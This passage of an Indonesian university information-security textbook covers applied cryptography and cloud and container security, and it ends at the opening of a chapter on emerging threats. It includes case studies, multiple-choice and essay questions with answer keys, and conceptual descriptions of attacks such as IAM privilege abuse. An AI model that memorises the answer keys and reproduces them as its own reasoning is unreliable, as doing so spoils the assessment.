Standar enkripsi yang diadopsi NIST sejak 2001, menggantikan DES. AES adalah block cipher dengan ukuran blok 128 bit dan mendukung ukuran kunci 128, 192, atau 256 bit (AES-128, AES-192, AES-256).

**Mode Operasi AES:**

| Mode | Singkatan | Keunggulan | Kelemahan | Rekomendasi |
|---|---|---|---|---|
| ECB | Electronic Codebook | Sederhana | Pola plaintext terlihat di ciphertext — **TIDAK AMAN** | **Jangan gunakan** |
| CBC | Cipher Block Chaining | Lebih aman dari ECB | Tidak parallelizable; rentan padding oracle attack | Gunakan dengan hati-hati |
| CTR | Counter Mode | Parallelizable; random access | Tidak menyediakan authentication | Kombinasikan dengan MAC |
| **GCM** | Galois/Counter Mode | Authenticated encryption (AE); parallelizable; aman | Nonce tidak boleh diulang | **Rekomendasi utama** |

**Mengapa AES-256-GCM?** GCM menyediakan *Authenticated Encryption with Associated Data (AEAD)* — enkripsi dan autentikasi dalam satu operasi. Ini mencegah ciphertext tampering, yang merupakan kelemahan umum mode enkripsi tanpa autentikasi.

**ChaCha20-Poly1305:**
Alternatif modern untuk AES-GCM, dikembangkan oleh Daniel Bernstein. Lebih efisien pada perangkat tanpa akselerasi hardware AES (seperti perangkat IoT, smartphone lama). Digunakan di TLS 1.3, WireGuard, dan berbagai aplikasi modern.

### 4.2 Kriptografi Asimetris (Public Key Cryptography)

Kriptografi asimetris menggunakan **pasangan kunci** yang berbeda: kunci publik (*public key*) yang dapat disebarkan bebas, dan kunci privat (*private key*) yang harus dijaga kerahasiaannya.

**Matematika Dasar RSA:**
RSA (Rivest-Shamir-Adleman) didasarkan pada kesulitan memfaktorkan hasil perkalian dua bilangan prima besar. Keamanan RSA bergantung pada ukuran kunci:
- RSA-1024: Tidak aman (dapat dipecahkan dengan sumber daya signifikan)
- RSA-2048: Standar minimum saat ini
- RSA-4096: Untuk data sensitif jangka panjang

**Elliptic Curve Cryptography (ECC):**
ECC menyediakan keamanan setara RSA dengan ukuran kunci yang jauh lebih kecil:
- ECC-256 bit ≈ RSA-3072 bit dalam hal keamanan
- Lebih efisien secara komputasi dan bandwidth
- Digunakan di ECDSA (digital signature), ECDH (key exchange), Ed25519

**Penggunaan Asimetris:**
1. **Key Exchange**: Alice mengenkripsi kunci simetris menggunakan public key Bob; hanya Bob yang dapat mendekripsi dengan private key-nya
2. **Digital Signature**: Alice menandatangani pesan menggunakan private key-nya; siapapun dapat memverifikasi tanda tangan dengan public key Alice
3. **Certificate Authentication**: CA menandatangani sertifikat server menggunakan private key CA; browser memverifikasi menggunakan public key CA yang tertanam

### 4.3 Fungsi Hash Kriptografi

Fungsi hash adalah fungsi satu arah yang menghasilkan output panjang tetap (*digest*) dari input berukuran apapun.

**Sifat yang Diperlukan:**
- **Preimage resistance**: Tidak dapat menemukan input dari output hash yang diketahui
- **Second preimage resistance**: Tidak dapat menemukan input lain yang menghasilkan hash yang sama dengan input yang diketahui
- **Collision resistance**: Sangat sulit menemukan dua input berbeda yang menghasilkan hash yang sama

**Status Algoritma Hash:**

| Algoritma | Status | Output | Catatan |
|---|---|---|---|
| MD5 | **JANGAN GUNAKAN** | 128 bit | Collision ditemukan; tidak cocok untuk keamanan |
| SHA-1 | **JANGAN GUNAKAN** | 160 bit | Collision ditemukan (SHAttered attack, 2017) |
| SHA-256 | Aman | 256 bit | Standar umum; digunakan di Bitcoin, TLS |
| SHA-3 (Keccak) | Aman | 224-512 bit | Struktur berbeda dari SHA-2; backup jika SHA-2 terkompromi |
| BLAKE2/BLAKE3 | Aman | Variabel | Lebih cepat dari SHA-256; digunakan di banyak aplikasi modern |

**HMAC (Hash-based Message Authentication Code):**
HMAC mengkombinasikan fungsi hash dengan kunci rahasia untuk menghasilkan *Message Authentication Code*. Memberikan autentikasi dan integritas: hanya pihak yang mengetahui kunci yang dapat menghasilkan dan memverifikasi HMAC.

`HMAC(K, M) = H((K ⊕ opad) || H((K ⊕ ipad) || M))`

**Password Hashing:**
Hash biasa (SHA-256) tidak aman untuk menyimpan password karena dapat diserang dengan rainbow table atau brute force GPU yang cepat. Gunakan fungsi hash khusus password yang lambat secara by-design:
- **bcrypt**: Faktor cost yang dapat disesuaikan; direkomendasikan dengan cost ≥ 12
- **Argon2** (winner Password Hashing Competition 2015): Memory-hard; lebih kuat dari bcrypt terhadap GPU/ASIC attack

### 4.4 Public Key Infrastructure (PKI)

PKI adalah sistem yang mengelola pembuatan, distribusi, dan pencabutan sertifikat digital, memungkinkan verifikasi identitas pihak yang tidak saling mengenal sebelumnya.

**Komponen PKI:**
- **Certificate Authority (CA)**: Pihak terpercaya yang menerbitkan dan menandatangani sertifikat digital
- **Registration Authority (RA)**: Memverifikasi identitas pemohon sebelum CA menerbitkan sertifikat
- **Certificate Repository**: Database sertifikat yang telah diterbitkan
- **Certificate Revocation List (CRL)** / **OCSP**: Mekanisme untuk mencabut sertifikat yang tidak lagi valid
- **End Entity**: Server, pengguna, atau perangkat yang memiliki sertifikat

**Sertifikat X.509:**
Format standar sertifikat digital yang berisi: subjek (nama entitas), public key, CA yang menerbitkan, masa berlaku, dan tanda tangan digital CA.

**Hierarki CA:**
- Root CA (self-signed; di-trust secara eksplisit oleh OS/browser)
- Intermediate CA (mengurangi paparan root CA; sertifikat ditandatangani root CA)
- Leaf/End-entity certificate (sertifikat server/user; ditandatangani intermediate CA)

### 4.5 TLS 1.3 — Protokol Keamanan Transport

TLS (Transport Layer Security) 1.3 adalah versi terbaru dari protokol yang melindungi komunikasi internet. Peningkatan signifikan dari TLS 1.2:

**Perubahan Utama TLS 1.3:**
- **1-RTT Handshake**: Mengurangi latency; handshake lebih cepat
- **0-RTT (Early Data)**: Memungkinkan data terkirim di ronde pertama (dengan trade-off keamanan: rentan replay attack)
- **Forward Secrecy wajib**: Setiap sesi menggunakan kunci sementara (ephemeral); jika private key bocor di masa depan, session lama tidak dapat didekripsi
- **Cipher suite yang lebih ketat**: Hanya algoritma modern yang diizinkan (AES-GCM, ChaCha20-Poly1305); semua cipher lama (RC4, 3DES, CBC mode) dihapus
- **Menghapus fitur berisiko**: Renegotiation, compression, dan cipher suite lemah dihapus

### 4.6 Post-Quantum Cryptography (PQC)

**Ancaman Komputer Kuantum:**
Algoritma Shor dapat memfaktorkan bilangan besar dan memecahkan discrete logarithm dalam waktu polinomial menggunakan komputer kuantum. Ini berarti: RSA, ECC, dan Diffie-Hellman — fondasi keamanan internet saat ini — akan menjadi rentan ketika komputer kuantum yang cukup besar tersedia.

**"Harvest Now, Decrypt Later" Attack:**
Aktor ancaman (terutama nation-state) sedang menyimpan traffic terenkripsi yang diintersep saat ini, dengan rencana mendekripsinya ketika komputer kuantum siap. Data sensitif dengan umur panjang (rahasia negara, kekayaan intelektual, data kesehatan) sudah dalam risiko.

**NIST PQC Standardization:**
NIST menyelesaikan standarisasi algoritma PQC pertama pada Agustus 2024:
- **FIPS 203 (ML-KEM / CRYSTALS-Kyber)**: Key encapsulation mechanism berbasis lattice; menggantikan ECDH/RSA untuk key exchange
- **FIPS 204 (ML-DSA / CRYSTALS-Dilithium)**: Digital signature berbasis lattice; menggantikan ECDSA/RSA-PSS untuk tanda tangan
- **FIPS 205 (SLH-DSA / SPHINCS+)**: Digital signature berbasis hash; diversifikasi dari lattice-based

**Rekomendasi Migrasi:**
Organisasi harus mulai *crypto agility* sekarang — rancang sistem sehingga algoritma kriptografi dapat diganti tanpa redesign arsitektur besar.

---

## 5. Model atau Arsitektur

### 5.1 TLS 1.3 Handshake

```mermaid
sequenceDiagram
    participant C as Client (Browser)
    participant S as Server
    
    Note over C,S: Round-Trip 1 (RTT-1)
    C->>S: ClientHello<br/>(Supported Cipher Suites, Key Share, Random)
    S->>C: ServerHello<br/>(Chosen Cipher Suite, Key Share, Random)
    S->>C: {Certificate}<br/>(Server Certificate Chain)
    S->>C: {CertificateVerify}<br/>(Signature over handshake)
    S->>C: {Finished}<br/>(MAC of handshake)
    
    Note over C,S: Client verifies certificate & computes session keys
    C->>S: {Finished}<br/>(MAC of handshake)
    
    Note over C,S: Handshake selesai — Application Data encrypted dengan session key
    C->>S: {Application Data}
    S->>C: {Application Data}
    
    Note over C,S: Kurung kurawal {} menandakan enkripsi<br/>Session key diturunkan dari ECDH key exchange
```

---

## 6. Contoh Terapan

### Studi Kasus: Audit Kriptografi Aplikasi Pembayaran

**Konteks:** Sebuah fintech diminta untuk audit kriptografi oleh tim payment card network sebelum dapat memproses transaksi kartu kredit.

**Temuan Audit:**

| Komponen | Implementasi Saat Ini | Status | Rekomendasi |
|---|---|---|---|
| Enkripsi data kartu di-rest | AES-128-ECB | **KRITIS** | Ganti dengan AES-256-GCM |
| Hash PIN pengguna | MD5(PIN) | **KRITIS** | Ganti dengan bcrypt (cost=12) atau Argon2 |
| Komunikasi API | TLS 1.0 (cipher RC4) | **TINGGI** | Upgrade ke TLS 1.3; nonaktifkan TLS 1.0/1.1 |
| Tanda tangan webhook | Tidak ada signature | **TINGGI** | Implementasikan HMAC-SHA256 |
| Sertifikat SSL | SHA-1 signature | **SEDANG** | Reissue dengan SHA-256 |
| Key Management | Keys hard-coded di config file | **KRITIS** | Implementasikan HSM atau Key Management Service |

---

## 7. Praktikum — Evaluasi Implementasi Kriptografi

**Tujuan:** Mengidentifikasi kelemahan kriptografi dalam skenario kode/konfigurasi yang diberikan.

**Tugas:** Review 5 snippet kode (Python/Java) atau konfigurasi server yang mengimplementasikan kriptografi. Identifikasi kelemahan di setiap snippet; jelaskan mengapa berbahaya; berikan implementasi yang benar.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Mengapa AES-ECB mode tidak aman untuk enkripsi data?
A. ECB lebih lambat dari mode lain  
B. ECB menghasilkan pola yang sama untuk plaintext yang sama, mengekspos struktur data  
C. ECB tidak mendukung kunci AES-256  
D. ECB tidak tersedia di library kriptografi modern

**Soal 2 (PG):** Untuk menyimpan password pengguna di database dengan aman, yang paling tepat adalah:
A. SHA-256(password)   B. MD5(password + salt)   C. Argon2id(password)   D. AES-256-GCM(password)

**Soal 3 (Esai):** Jelaskan konsep "forward secrecy" dalam TLS dan mengapa ini penting untuk perlindungan komunikasi jangka panjang.

**Soal 4 (Analisis):** Sebuah developer berargumen: "Saya menggunakan AES-256 untuk enkripsi semua data sensitif, jadi sistem kita pasti aman." Identifikasi setidaknya 3 asumsi yang berpotensi salah dalam pernyataan ini.

**Soal 5:** Jelaskan ancaman "Harvest Now, Decrypt Later" dalam konteks post-quantum computing. Data jenis apa yang paling berisiko, dan apa yang seharusnya dilakukan organisasi sekarang?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Rancang Strategi Kriptografi untuk Sistem Rekam Medis

Rumah sakit besar akan membangun sistem rekam medis elektronik (RME) baru. Data yang akan disimpan: rekam medis pasien (teks dan gambar), hasil laboratorium, riwayat resep. Data akan diakses oleh dokter, perawat, lab, apoteker, dan pasien (via portal).

**Pertanyaan:**
1. **Desain Kriptografi (C4)**: Rancang strategi kriptografi komprehensif untuk RME ini. Tentukan: algoritma dan mode untuk enkripsi data at-rest, enkripsi data in-transit, hashing untuk audit log, autentikasi pengguna (penyimpanan credential), dan tanda tangan digital untuk persetujuan dokter. Justifikasi setiap pilihan berdasarkan kebutuhan sistem.

2. **Key Management (C5)**: Key management sering menjadi kelemahan terbesar dalam implementasi kriptografi. Rancang sistem key management untuk RME ini: siapa yang memegang kunci master, bagaimana kunci dirotasi, apa yang terjadi jika dokter mengundurkan diri, dan bagaimana sistem pemulihan jika kunci hilang. Pertimbangkan trade-off antara keamanan dan ketersediaan data kritis.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B:** ECB mengenkripsi setiap blok plaintext secara independen dengan kunci yang sama. Akibatnya, blok plaintext yang identik menghasilkan blok ciphertext yang identik. Ini mengekspos pola struktural data — gambar BMP terenkripsi ECB, misalnya, masih menunjukkan outline gambar asli meskipun "terenkripsi". Mode GCM menggunakan counter yang unik untuk setiap blok dan mengautentikasi output, mencegah masalah ini.

**Soal 2 — C (Argon2id):** Hash biasa (SHA-256, MD5) sangat cepat — GPU modern dapat mencoba miliaran hash per detik. Argon2id adalah memory-hard: membutuhkan memori besar selain waktu komputasi, membuat brute force dengan GPU/ASIC menjadi sangat mahal. Argon2id adalah winner Password Hashing Competition dan rekomendasi OWASP saat ini.

**Soal 3:** Forward secrecy (atau Perfect Forward Secrecy/PFS) berarti bahwa kunci sesi yang digunakan untuk mengenkripsi komunikasi bersifat sementara dan tidak dapat diturunkan dari kunci privat jangka panjang server. Implementasinya: setiap sesi TLS menggunakan kunci ephemeral (ECDHE) yang dibuang setelah sesi selesai. Implikasinya: jika private key server bocor di masa depan (misalnya, akibat kompromi server tahun depan), seseorang yang merekam traffic sesi hari ini tetap tidak dapat mendekripsinya, karena kunci efemeral sudah tidak ada. TLS 1.3 mewajibkan forward secrecy untuk semua koneksi.

---

## 11. Ringkasan Bab

Kriptografi terapan melibatkan pemilihan algoritma yang tepat untuk tujuan yang tepat: AES-256-GCM untuk enkripsi data at-rest dan in-transit; SHA-256/SHA-3 untuk integritas data; bcrypt/Argon2 untuk password; RSA/ECC untuk key exchange dan digital signature; TLS 1.3 untuk komunikasi aman. Hindari algoritma yang sudah usang (MD5, SHA-1, DES, RC4) dan mode operasi yang tidak aman (ECB).

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** "Don't roll your own crypto" adalah prinsip yang dipegang teguh di komunitas keamanan. Namun, beberapa sistem kritis menggunakan library kriptografi yang tidak diaudit dengan baik. Bagaimana seorang profesional keamanan mengevaluasi apakah library kriptografi yang digunakan tim pengembangan aman dan dapat dipercaya?

**Pertanyaan Refleksi 2:** Migrasi ke post-quantum cryptography adalah proses yang akan memakan waktu bertahun-tahun dan memengaruhi hampir semua sistem yang terhubung internet. Siapa yang bertanggung jawab untuk mendorong migrasi ini: vendor software, organisasi pengguna, regulator, atau komunitas standar? Apa konsekuensinya jika industri terlambat bermigrasi sebelum komputer kuantum kriptografis tersedia?

---


---

# BAB 14 — KEAMANAN CLOUD DAN VIRTUALISASI

**Pertemuan:** 14  
**Sub-CPMK:** Sub-CPMK.5  
**CPMK:** CPMK.5  
**Evaluasi:** Eval-5

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 14, mahasiswa mampu:

- Menjelaskan model tanggung jawab bersama (shared responsibility model) dalam cloud computing.
- Mengidentifikasi risiko keamanan utama dalam lingkungan cloud berdasarkan OWASP Cloud-Native Application Security Top 10.
- Mendeskripsikan kontrol keamanan yang tersedia di major cloud provider (AWS, Azure, GCP).
- Menjelaskan prinsip keamanan container (Docker, Kubernetes) dan risiko khususnya.
- Mengevaluasi trade-off keamanan dalam migrasi dari on-premise ke cloud.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    CloudSec["Keamanan Cloud\n& Virtualisasi"] --> SharedResp["Shared Responsibility\nModel"]
    CloudSec --> CloudRisk["Risiko Cloud\n(OWASP Cloud Top 10)"]
    CloudSec --> CSPSec["Kontrol Keamanan\nCSP (AWS/Azure/GCP)"]
    CloudSec --> Container["Container Security\n(Docker, Kubernetes)"]
    CloudSec --> CSPM["CSPM & Cloud Security\nPosture Management"]
    
    SharedResp --> IaaS["IaaS\n(Customer: OS, App, Data)"]
    SharedResp --> PaaS["PaaS\n(Customer: App, Data)"]
    SharedResp --> SaaS["SaaS\n(Customer: Data, Config)"]
    
    CloudRisk --> CR1["Misconfiguration\n(S3 Public Bucket, etc.)"]
    CloudRisk --> CR2["IAM Misuse\n(Excessive Permissions)"]
    CloudRisk --> CR3["Insecure API\nExposure"]
    CloudRisk --> CR4["Supply Chain\nRisk"]
    
    Container --> CImg["Image Security\n(Scan, Trusted Registry)"]
    Container --> CRuntime["Runtime Security\n(seccomp, AppArmor)"]
    Container --> CK8s["Kubernetes Security\n(RBAC, Network Policy)"]
```

---

## 3. Pengantar Kontekstual

Cloud computing telah mengubah cara organisasi membangun dan mengelola infrastruktur IT. Namun, perpindahan ke cloud tidak otomatis berarti lebih aman — justru sebaliknya, cloud memperkenalkan model keamanan yang berbeda secara fundamental yang sering disalahpahami.

Laporan Verizon DBIR dan berbagai studi menunjukkan bahwa **misconfiguration** adalah penyebab utama insiden keamanan cloud — bukan exploit zero-day atau serangan canggih. Bucket S3 yang terbuka publik, IAM role dengan izin berlebihan, security group yang terlalu permisif, dan API yang terekspos tanpa autentikasi adalah kesalahan konfigurasi yang telah menyebabkan kebocoran data berskala besar.

---

## 4. Landasan Teori

### 4.1 Model Layanan Cloud dan Shared Responsibility

**IaaS (Infrastructure as a Service) — contoh: AWS EC2, Azure VM:**
- CSP bertanggung jawab: Fisik, hypervisor, jaringan fisik
- Customer bertanggung jawab: OS, middleware, runtime, aplikasi, data, network config, identity

**PaaS (Platform as a Service) — contoh: AWS RDS, Azure App Service:**
- CSP bertanggung jawab: Fisik, hypervisor, OS, middleware, runtime
- Customer bertanggung jawab: Aplikasi, data, konfigurasi platform, identity

**SaaS (Software as a Service) — contoh: Microsoft 365, Salesforce:**
- CSP bertanggung jawab: Hampir segalanya (infrastruktur hingga aplikasi)
- Customer bertanggung jawab: Data, konfigurasi akses, manajemen identitas pengguna

**Implikasi Keamanan:**
Banyak insiden terjadi karena organisasi salah memahami batas tanggung jawab ini. Dalam IaaS, CSP TIDAK bertanggung jawab atas patch OS VM yang dijalankan pelanggan. Dalam SaaS, CSP TIDAK bertanggung jawab atas pengaturan izin berbagi dokumen yang dilakukan pengguna.

### 4.2 Ancaman Keamanan Cloud Utama

**OWASP Cloud-Native Application Security Top 10 (2022):**

| Peringkat | Ancaman | Deskripsi |
|---|---|---|
| C1 | Insecure Cloud Infrastructure | Misconfiguration (storage publik, security group permisif) |
| C2 | Insecure Identity and Access Management | IAM over-permissive, credential exposure, no MFA |
| C3 | Insecure Third-Party Resources | Dependensi tidak aman; supply chain risk |
| C4 | Insecure CI/CD Pipelines | Credential di repo; build pipeline yang tidak aman |
| C5 | Insecure Secret Management | API keys, DB passwords hardcoded atau disimpan tidak aman |
| C6 | Over-Permissive or Insecure Network Policies | Security group yang terlalu terbuka; tidak ada micro-segmentation |
| C7 | Using Components with Known Vulnerabilities | Base image Docker yang out-of-date; library rentan |
| C8 | Improper Asset Management | Shadow IT; resource tidak terdokumentasi |
| C9 | Inadequate 'Compute Resource Quota' Limits | Tidak ada limit → cryptojacking menguras budget |
| C10 | Ineffective Logging and Monitoring | CloudTrail/audit log tidak diaktifkan atau tidak dimonitor |

### 4.3 Kontrol Keamanan Cloud Fundamental

**Identity and Access Management (IAM):**
IAM adalah kontrol keamanan paling fundamental di cloud. Prinsip yang harus diterapkan:
- **Least Privilege**: Setiap user/role/service hanya mendapat izin yang diperlukan untuk tugasnya
- **MFA Wajib**: Terutama untuk akun root/admin dan akun dengan izin tinggi
- **Rotate credentials**: Access key harus dirotasi secara berkala atau gunakan IAM roles tanpa static credentials
- **Service Account Isolation**: Setiap aplikasi menggunakan service account tersendiri dengan izin minimal

**Enkripsi di Cloud:**
- *Server-Side Encryption (SSE)*: CSP mengelola kunci (kemudahan tinggi, kontrol rendah)
- *Customer-Managed Keys (CMK)*: Customer mengelola kunci via KMS (AWS KMS, Azure Key Vault)
- *Client-Side Encryption*: Enkripsi sebelum data dikirim ke cloud (kontrol penuh, kompleksitas tinggi)

**Cloud Security Groups / Firewalls:**
Kesalahan umum: membuka port 22 (SSH) atau 3389 (RDP) ke 0.0.0.0/0 (seluruh internet). Prinsip:
- SSH/RDP hanya dapat diakses dari IP spesifik atau melalui VPN/bastion host
- Database ports (3306, 5432, 1433) tidak pernah terbuka ke internet
- Gunakan security group untuk segmentasi antar tier (web, app, db)

**Logging dan Monitoring:**
- **AWS**: CloudTrail (API calls), VPC Flow Logs, GuardDuty (threat detection), Security Hub
- **Azure**: Activity Log, Azure Defender, Microsoft Sentinel
- **GCP**: Cloud Audit Logs, Security Command Center, Chronicle
- Semua log harus dikirim ke SIEM dan dimonitor secara aktif

### 4.4 Keamanan Container

**Docker Security:**

*Image Security:*
- Gunakan base image minimal (Alpine, distroless) untuk mengurangi attack surface
- Scan image sebelum deployment menggunakan Trivy, Snyk, atau Clair
- Gunakan trusted registry dengan image signing (Docker Content Trust, Cosign)
- Jangan jalankan container sebagai root — gunakan non-root user

*Runtime Security:*
- Terapkan `--read-only` flag untuk filesystem read-only
- Gunakan seccomp profile untuk membatasi system calls yang dapat dilakukan container
- Terapkan AppArmor/SELinux profile untuk MAC (Mandatory Access Control)
- Batasi resource dengan `--memory` dan `--cpus`

**Kubernetes Security:**

*Authentication dan Authorization:*
- RBAC (Role-Based Access Control) untuk membatasi apa yang dapat dilakukan setiap user/service account
- Network Policy untuk membatasi komunikasi antar pod
- Pod Security Standards (PSS) untuk mencegah container berjalan sebagai root atau menggunakan privileged mode

*Secret Management:*
Kubernetes Secrets by default hanya di-encode base64 (bukan dienkripsi). Gunakan:
- Encryption at rest untuk etcd
- External secret management (HashiCorp Vault, AWS Secrets Manager)
- Eksterna secrets operator untuk sinkronisasi secret secara aman

### 4.5 CSPM — Cloud Security Posture Management

CSPM adalah kategori tools yang secara kontinyu memantau konfigurasi cloud untuk mendeteksi penyimpangan dari security best practices dan compliance requirements.

**Kemampuan CSPM:**
- Scan resource cloud secara kontinyu (S3, EC2, IAM, RDS, dsb.)
- Alert ketika konfigurasi menyimpang dari benchmark (CIS Cloud Benchmark, AWS Security Best Practices)
- Auto-remediation untuk kesalahan konfigurasi umum
- Compliance reporting (PCI DSS, HIPAA, SOC 2, ISO 27001)

**Contoh tools CSPM:**
- AWS Security Hub + AWS Config
- Azure Defender for Cloud (termasuk Defender CSPM)
- Google Security Command Center
- Prisma Cloud, Wiz, Lacework (multi-cloud)

---

## 5. Model atau Arsitektur

### 5.1 Arsitektur Cloud Aman (Well-Architected Security)

```mermaid
flowchart TD
    Internet2["Internet"] --> CloudFront["CDN / WAF\n(AWS CloudFront + WAF)"]
    CloudFront --> ALB["Application Load Balancer\n(HTTPS Only)"]
    
    subgraph PublicSubnet["Public Subnet"]
        ALB
        NAT["NAT Gateway\n(Outbound only)"]
    end
    
    subgraph PrivateAppSubnet["Private App Subnet"]
        AppSvr["App Server\n(ECS / EC2)\n[IAM Role, No Static Keys]"]
    end
    
    subgraph PrivateDataSubnet["Private Data Subnet"]
        RDS2["RDS Database\n[Encrypted at Rest, CMK]\n[No Public Access]"]
        S3["S3 Bucket\n[Block Public Access]\n[Server-Side Encryption]"]
    end
    
    subgraph Security["Security Services"]
        IAM2["AWS IAM\n[Least Privilege, MFA]"]
        KMS2["AWS KMS\n[Customer-Managed Keys]"]
        CT["CloudTrail\n[All API Calls Logged]"]
        GD["GuardDuty\n[Threat Detection]"]
        SH["Security Hub\n[CSPM, Findings]"]
    end
    
    ALB --> AppSvr
    AppSvr --> RDS2 & S3
    AppSvr --> NAT --> Internet2
    
    IAM2 & KMS2 -.->|"Kontrol"| AppSvr & RDS2 & S3
    CT & GD & SH -.->|"Monitor"| PublicSubnet & PrivateAppSubnet & PrivateDataSubnet
```

---

## 6. Contoh Terapan

### Studi Kasus: Investigasi Insiden Eksposur Data S3

**Kronologi:** Sebuah startup e-commerce menemukan bahwa database backup yang disimpan di S3 bucket terekspos ke publik selama 3 bulan. Data yang terekspos: 200.000 record pelanggan termasuk nama, email, nomor telepon, dan riwayat transaksi (tidak termasuk data kartu).

**Root Cause Analysis:**
1. Developer membuat S3 bucket untuk backup dengan setting publik "untuk memudahkan debugging"
2. "Block Public Access" tidak diaktifkan di level bucket maupun akun
3. Tidak ada CSPM atau monitoring konfigurasi S3
4. CloudTrail memang aktif, tetapi tidak ada alert untuk akses dari IP eksternal
5. Bucket tidak dienkripsi, sehingga data dapat langsung dibaca tanpa kunci

**Dampak:**
- Notifikasi BSSN sesuai regulasi; potensi denda UU PDP
- Biaya forensik, notifikasi pelanggan, dan credit monitoring: ~Rp 500 juta
- Reputasi merek terdampak signifikan

**Kontrol yang Seharusnya Ada:**
- S3 Block Public Access diaktifkan di level akun
- CSPM aktif: alert langsung jika ada bucket publik
- CloudWatch alert untuk akses S3 dari IP luar VPC
- Enkripsi S3 dengan CMK
- Backup strategy yang tidak memerlukan public access

---

## 7. Praktikum — Evaluasi Konfigurasi Cloud

**Tujuan:** Mengidentifikasi misconfiguration dalam skenario konfigurasi cloud yang disediakan dosen.

**Tugas:** Review screenshot atau output CLI dari konfigurasi AWS/Azure/GCP yang diberikan. Identifikasi minimal 8 masalah konfigurasi; kategorikan berdasarkan OWASP Cloud Top 10; rekomendasikan perbaikan.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Dalam shared responsibility model untuk AWS EC2 (IaaS), siapa yang bertanggung jawab untuk patch sistem operasi Linux yang berjalan di instance?
A. AWS   B. Customer   C. Dibagi 50/50   D. Bergantung pada kontrak

**Soal 2 (PG):** Seorang developer meng-commit AWS Access Key ID dan Secret Key ke repository GitHub publik. Kontrol mana yang paling langsung seharusnya mencegah insiden ini?
A. CloudTrail   B. GuardDuty   C. Secret scanning di CI/CD pipeline   D. IAM password policy

**Soal 3 (Esai):** Jelaskan mengapa "Least Privilege" sangat kritis dalam IAM cloud, dan berikan contoh konkret bagaimana IAM role yang terlalu permisif dapat dieksploitasi.

**Soal 4:** Sebuah container Docker berjalan sebagai root dan memiliki akses ke socket Docker daemon (/var/run/docker.sock). Jelaskan implikasi keamanannya dan bagaimana ini dapat dieksploitasi oleh penyerang yang berhasil mengkompromikan container.

**Soal 5:** Jelaskan perbedaan antara "Encryption at Rest" menggunakan Server-Side Encryption (SSE) yang dikelola CSP versus Customer-Managed Keys (CMK). Dalam konteks apa CMK lebih diperlukan?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Desain Keamanan Migrasi Aplikasi ke Cloud

Sebuah bank regional Indonesia akan memigrasikan aplikasi mobile banking-nya dari data center on-premise ke AWS. Aplikasi terdiri dari: API backend (Java Spring Boot), database nasabah (MySQL), file storage untuk dokumen KYC, dan sistem notifikasi (push notification, SMS).

**Pertanyaan:**
1. **Shared Responsibility Mapping (C4)**: Untuk setiap komponen aplikasi (API, database, file storage, notifikasi), tentukan dengan detail apa yang menjadi tanggung jawab bank dan apa yang menjadi tanggung jawab AWS dalam konteks keamanan informasi. Identifikasi area yang paling berisiko karena miskomunikasi tanggung jawab.

2. **Security Architecture (C5)**: Rancang arsitektur keamanan AWS untuk aplikasi mobile banking ini. Komponen wajib: VPC design (subnet publik/privat), IAM roles untuk setiap komponen, enkripsi data at-rest dan in-transit, logging dan monitoring, dan strategi pencegahan data exfiltration. Pertimbangkan regulasi OJK POJK 11/2022 tentang keamanan TI perbankan.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B (Customer):** Dalam IaaS, AWS bertanggung jawab untuk "Security OF the Cloud" (hypervisor, fisik, jaringan). Customer bertanggung jawab untuk "Security IN the Cloud" — termasuk OS, patch, konfigurasi network, dan aplikasi yang berjalan di dalam EC2 instance.

**Soal 2 — C:** Secret scanning di CI/CD pipeline (seperti GitHub Secret Scanning, GitGuardian, atau pre-commit hooks) akan mencegah commit yang mengandung credential sebelum mencapai repository. CloudTrail dan GuardDuty mendeteksi *penggunaan* credential yang bocor — setelah kerusakan terjadi. IAM password policy tidak relevan untuk access key.

**Soal 3:** Contoh eksploitasi IAM over-permissive: Sebuah Lambda function hanya memerlukan akses baca ke tabel DynamoDB tertentu, tetapi diberi IAM role dengan `AdministratorAccess`. Jika function ini dikompromikan (misalnya melalui injection attack), penyerang mendapat akses admin ke seluruh akun AWS: dapat membaca/menulis semua data, membuat user IAM backdoor, mengeksfiltrasi data dari semua S3 bucket, dan me-launch resource untuk cryptomining. Dengan prinsip least privilege, role hanya akan memiliki `dynamodb:GetItem` pada tabel spesifik — kompromi function tidak memberikan dampak di luar itu.

---

## 11. Ringkasan Bab

Keamanan cloud memerlukan pemahaman mendasar tentang shared responsibility model — batas yang sering disalahpahami dan menjadi sumber insiden keamanan. Misconfiguration, bukan exploit teknis yang canggih, adalah penyebab dominan insiden cloud. CSPM, IAM least privilege, enkripsi end-to-end, dan monitoring komprehensif adalah pilar keamanan cloud yang efektif.

Container security menambah lapisan kompleksitas: dari image security, runtime hardening, hingga Kubernetes RBAC dan Network Policy. Setiap lapisan harus diperhatikan untuk membangun lingkungan container yang aman.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Ketika organisasi pemerintah Indonesia memindahkan data warga (data pajak, data kependudukan, data kesehatan) ke cloud publik (AWS, Azure, GCP) yang dioperasikan perusahaan asing, muncul pertanyaan kedaulatan data. Dari perspektif keamanan nasional, apa risiko yang perlu dipertimbangkan? Apakah ada kondisi di mana cloud publik asing tidak seharusnya digunakan untuk data pemerintah?

**Pertanyaan Refleksi 2:** Multi-cloud strategy (menggunakan beberapa CSP sekaligus) sering dijual sebagai cara meningkatkan resiliensi dan menghindari vendor lock-in. Dari perspektif keamanan, apa tantangan tambahan yang dihadirkan oleh multi-cloud dibandingkan single-cloud strategy?

---


---

# BAB 15 — TREN ANCAMAN KONTEMPORER DAN EMERGING THREATS

**Pertemuan:** 15  
**Sub-CPMK:** Sub-CPMK.5  
**CPMK:** CPMK.5  
**Evaluasi:** Eval-5

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 15, mahasiswa mampu:

- Menganalisis karakteristik Advanced Persistent Threat (APT) dan tahapan operasinya.
- Menjelaskan evolusi ransomware modern termasuk model Ransomware-as-a-Service (RaaS).
- Mendeskripsikan serangan supply chain dan mengapa sulit dideteksi.
- Menganalisis implikasi keamanan dari serangan berbasis AI dan deepfake.
- Menjelaskan risiko keamanan IoT/OT dan karakteristiknya yang berbeda dari IT tradisional.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
